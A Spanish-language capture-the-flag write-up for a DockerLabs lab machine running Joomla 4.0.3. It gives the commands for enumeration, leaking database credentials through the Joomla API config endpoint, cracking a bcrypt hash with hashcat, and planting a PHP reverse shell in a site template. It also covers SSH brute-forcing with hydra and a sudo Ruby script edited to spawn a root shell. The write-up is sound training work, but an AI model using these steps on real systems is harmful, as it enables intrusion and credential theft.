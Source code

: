 nmap: 22,80 3306

![image](https://github.com/user-attachments/assets/127b255b-eead-405d-ae0f-217aa3fc6a6b)

---

en la pagina principal hay un apache2 ubuntu, nada interesante tampoco en el código fuente

hacemos un gobuster:

       - # gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,html,txt -k

y nos da:

![image](https://github.com/user-attachments/assets/c5162c38-f072-4037-a84a-e6493cb0bd95)

entramos y tenemos pagina

![[wordpress.png]]

en la pagina encontré esto interesante

![[joomla.png]]

*buscar posible explotación:  Joomla 4.0.3*

> exploit encontrado: https://vulncheck.com/blog/joomla-for-rce

![[ve.png]]

utilizamos joomscan (JoomScan es una herramienta de escaneo de vulnerabilidades diseñada específicamente para aplicaciones web basadas en Joomla. Sirve para identificar posibles vulnerabilidades y debilidades en sitios web que utilizan este popular sistema de gestión de contenido (CMS):

       - joomscan -u http://172.17.0.2/wordpress/

nos da:

![[joomscan.png]]

entramos a los dos de robots.txt y administrador

![[robots.png]]

![[dockerlabs/dificil/vulnerame/admin.png]]

buscando también me llamo la atención esto

![[joomla version.png]]

hasta que encontré este comando

     curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true

y me dio las credenciales

![[usuarios.png]]


usuario: joomla_user
contraseña: vuln

probé en el login que teníamos en administrator, pero no funciono así que probé con la base de datos  


revisamos una posible base de datos con los usuarios encontrados:

      - mysql -h 172.17.0.2 -u joomla_user -pvuln

entramos a "mysql none":

     show databases; 

![[database.png]]

    use joomla_db
    show tables

![[show1.png]]


    select * from ffsnq_users;

nos da una contraseña encriptada:

![[pass1.png]]


utilizamos: https://hashes.com/en/decrypt/hash

       - $2y$10$UVmUci/wKgu7LFir7KIzP.NDup3lYDUxPzz7WZryvEYVdUjUVhou.
       - contraseña: bcrypt

creamos un archivo con la contraseña encriptada llamado "hash.txt"

en el terminal:
      
    hashcat -m 3200 hast.txt /usr/share/wordlists/rockyou.txt
    
nos da otra contraseña: 14344392
también nos da posible contraseña: tequieromucho

credenciales para admin:

      - firstatack
      - tequieromucho

vamos al login e ingresamos

![[dockerlabs/dificil/vulnerame/panel1.png]]

luego buscando en la pagina como admin vamos a:

> system > site templates > click en la pagina > index.php y cargamos un código php 

para conectarnos: https://github.com/pentestmonkey/php-reverse-shell
cambiamos IP y puerto: lo guardamos y en otra pestaña abrimos con la IP de la pagina mientras tenemos en escucha nuestro puerto 443, y entramos.
![[dockerlabs/dificil/vulnerame/conexion.png]]

luego de cargar en index.php la reverse la cargamos en el URL con el terminal en escucha

> http://172.17.0.2/wordpress/index.php?cmd=cat%20/etc/passwd

hacemos tratamiento de stty y buscamos como escalar.

dentro hay dos usuarios: guadalupe e ignacio y hacemos un ataque de fuerza bruta:

     hydra -l ignacio -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

     hydra -l guadalupe -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

![[dockerlabs/dificil/vulnerame/hydra.png]]

y tenemos la contraseña de ambos usuarios. con el que podemos escalar es con ignacio

![[dockerlabs/dificil/vulnerame/sudo -l.png]]

ya dentro del usuario Ignacio podemos ejecutar los "nano" así que modificamos el archivo "saludos.rb": 


      sudo /usr/bin/saludos.rb

         - exec "/bin/sh"
         - system "/bin/sh"

ejecutamos 

     sudo /usr/bin/ruby /usr/bin/saludos.rb

![[dockerlabs/dificil/vulnerame/root.png]]

y somos root! 
